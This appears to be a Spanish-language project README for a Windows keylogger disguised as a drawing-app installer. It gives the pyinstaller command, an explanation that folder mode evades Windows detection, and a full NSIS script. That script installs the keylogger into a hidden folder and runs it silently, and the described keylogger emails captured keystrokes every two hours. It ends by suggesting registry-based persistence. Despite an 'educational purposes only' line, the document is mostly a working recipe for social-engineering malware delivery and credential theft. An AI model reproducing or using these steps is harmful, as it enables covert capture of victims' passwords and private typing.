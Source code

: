 # Instalador de un keylogger en una victima Windows

Este proyecto está desarrollado solo para fines educativos. 

## Idea de ataque en windows con keylogger:

Crear un instalador que instala una "app" ficticia de dibujo pero a la vez el instalador instala un keylogger(`keylogger.py`) en una carpeta oculta que se lanza automáticamente al finalizar el instalador.

El keylogger guarda todos los registros de teclado en un fichero y cada 2 horas envía por e-mail todo lo registrado. Se utiliza la librería [Sendgrid](https://sendgrid.com/solutions/email-api/) (Requiere una cuenta)

Para salir del keylogger la victima puede teclear una palabra clave `PALABRA_SALIR` (ej: byebye)
## Ejemplo: Crear el ejecutable

Se utiliza [pyinstaller](https://www.pyinstaller.org/) que permite embeber un proyecto pyhton en un .exe

```bash
pyinstaller --onedir --name "draw" -w keylogger.py
```

--name

nombre del exe `ej: draw.exe`

--onedir

el ejecutable se puede crear de dos modos, en modo `onefile` que solo crea un exe o en modo carpeta `onedir` con el .exe y las librerías. Lo más limpio sería empaquetar el script en un solo fichero .exe. Pero en las pruebas realizadas Windows detecta más facilemente que es un virus cuando se utiliza `onefile`. En modo carpeta windows es más permisible. *De esta manera nos saltamos que windows bloque el keylogger*

El pyinstaller crea el directorio `dist\draw` con el exe `dist\draw\draw.exe` y las librerias
## Ejemplo: Instalador del keylogger (ingeniería social)

Utilizando el software [nsis](https://nsis.sourceforge.io/Main_Page) se enmascara la instalación del keylogger como si fuera un software de dibujo, el usuario creerá que es un app de dibujo (es un enlace a app online) pero también instalará el keylogger en un directorio oculto (`.backup`)

Una vez finaliza la instalación se ejecuta el keylogger de forma transparente a la victima.

Pasos para generar el instalador:

- Copiar y renombrar `excalidraw.url.dist_sample` `installer.nsi.dist_sample` y `LEEME.txt.dist_sample` en la carpeta `dist`.

```
copy excalidraw.url.dist_sample dist\excalidraw.url
copy installer.nsi.dist_sample dist\installer.nsi
copy LEEME.txt.dist_sample dist\LEEME.txt
```

- Renombrar la carpeta `dist/draw` por `dist/.backup`

```
move dist\draw dist\.backup
```

- Ejecutar el script `dist\installer.nsi` con NSIS para generar el instalador `draw-installer.exe`

Script NSIS

```
Outfile "draw-installer.exe"

InstallDir $EXEDIR

Section

SetOutPath $INSTDIR

File LEEME.txt
File excalidraw.url

SetOutPath $INSTDIR\.backup

File .backup\base_library.zip
File .backup\draw.exe
File .backup\libcrypto-1_1.dll
File .backup\libffi-7.dll
File .backup\libssl-1_1.dll
File .backup\pyexpat.pyd
File .backup\python310.dll
File .backup\select.pyd
File .backup\unicodedata.pyd
File .backup\VCRUNTIME140.dll
File .backup\_asyncio.pyd
File .backup\_bz2.pyd
File .backup\_ctypes.pyd
File .backup\_decimal.pyd
File .backup\_hashlib.pyd
File .backup\_lzma.pyd
File .backup\_multiprocessing.pyd
File .backup\_overlapped.pyd
File .backup\_queue.pyd
File .backup\_socket.pyd
File .backup\_ssl.pyd

SectionEnd

Section

SetOutPath $INSTDIR

SetFileAttributes "$EXEDIR\.backup" HIDDEN

Exec '"$EXEDIR\.backup\draw.exe"'

SectionEnd
```

## Posibles mejoras

* Modificar el registro de windows para que se lance al inicio de Windows
* Salir si ya hay un keylogger ejecutandose.



